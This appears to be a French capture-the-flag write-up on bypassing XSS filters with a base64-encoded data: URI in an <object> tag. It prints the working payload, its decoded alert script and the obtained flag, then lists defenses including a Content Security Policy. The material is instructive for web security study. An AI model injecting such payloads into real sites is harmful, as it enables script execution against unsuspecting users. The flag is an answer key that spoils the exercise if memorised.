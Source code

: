 # Nom de la faille
ReflectedBase64 

## Définition
On peut contourner certains filtres XSS en utilisant une URI de type `data:` encodée en **base64**.

## Détection et Exploitation

```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K"></object>
```

Cette charge utile base64 représente :

```html
<script>alert('XSS')</script>
```

Format général de l’URI `data:`

```
data:[<type MIME>][;base64],<contenu encodé>
```

Exemple avec HTML encodé :

```
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
```

## Flag obtenu

```
928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```

---

## Comment l’éviter

1. **Utiliser une whitelist d’URL sûres**

Limiter les sources autorisées (par exemple pour `src`, `data`, `href`) uniquement à des domaines ou chemins connus et vérifiés.

2. **Utiliser des iframes pour isoler du contenu externe**

Ne jamais intégrer directement des données potentiellement malveillantes via `<object>` ou `src=data:`. Préférer l'encapsulation dans une iframe sécurisée.

3. **Échapper les entrées utilisateur**

Toutes les données venant des utilisateurs doivent être encodées pour ne pas être interprétées comme du code (HTML, JS).

4. **Mettre en place une Content Security Policy (CSP)**

Empêcher l’exécution de scripts non autorisés, dont les `data:` URIs :

```http
Content-Security-Policy: default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'self';
```

Cela désactive les sources non approuvées, y compris les URIs de type `data:` pour les balises `<object>`, `<iframe>`, etc.

## Notes complémentaires

- Les balises `<object>` et `<iframe>` sont vulnérables si elles peuvent charger des données dynamiques non filtrées.
- Les filtres XSS classiques peuvent être contournés par des techniques comme le base64 ou l’utilisation de schémas URI alternatifs (`data:`, `javascript:`, etc.).

## Ressources

- [Bypassing XSS Filters using Data URIs (Cubalo)](https://cubalo.github.io/blog/2014/01/04/bypassing-xss-filters-using-data-uris/)
- [OWASP XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
- [MDN – Content Security Policy (CSP)](https://developer.mozilla.org/fr/docs/Web/HTTP/Guides/CSP)
